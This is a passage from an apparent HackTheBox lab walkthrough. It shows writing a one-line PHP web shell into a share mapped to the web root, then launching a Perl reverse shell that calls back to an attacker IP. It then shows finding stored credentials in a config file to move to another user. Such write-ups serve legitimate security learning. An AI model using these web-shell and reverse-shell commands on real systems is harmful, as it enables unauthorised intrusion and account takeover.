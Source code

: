 <div class="filename"><span>info.php</span></div>

```
# echo "<?php phpinfo(); ?>" > info.php
```

In the shares comment, `Files` was shown to be mapped to `/etc/Files`. By extension, `Development` should be mapped to `/etc/Development`.


{% include image.html image_alt="dfab6015.png" image_src="/26c4ea7d-c8af-4acb-8bae-d8fae2a161fe/dfab6015.png" %}


Awesome. Now, let's step up the game and write another small PHP file, that allows us to execute remote commands.

<div class="filename"><span>cmd.php</span></div>

```
# echo '<?php echo shell_exec($_GET[0]); ?>' > cmd.php
```


{% include image.html image_alt="5f0a0cde.png" image_src="/26c4ea7d-c8af-4acb-8bae-d8fae2a161fe/5f0a0cde.png" %}


Sweet. Time to get ourselves a Perl reverse shell.

## Low-Privilege Shell

Here's the Perl one-liner I use.

```
perl -e 'use Socket;$i="10.10.12.246";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/bash -i");};'
```

Of course, it's best to `urlencode` it to prevent complications in the browser's address bar.


{% include image.html image_alt="14648ca0.png" image_src="/26c4ea7d-c8af-4acb-8bae-d8fae2a161fe/14648ca0.png" %}


Better [upgrade](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/) my shell to a full TTY.

## Privilege Escalation

During enumeration of `www-data`'s account, I saw the credentials of `friend` lurking in `/var/www/mysql_data.conf`.


{% include image.html image_alt="65694d11.png" image_src="/26c4ea7d-c8af-4acb-8bae-d8fae2a161fe/65694d11.png" %}


The funny thing is MySQL is not even running! Well, let's `su` ourselves as `friend`.


[1]: https://www.hackthebox.eu/home/machines/profile/173
[2]: https://www.hackthebox.eu/home/users/profile/17292
[3]: https://www.hackthebox.eu/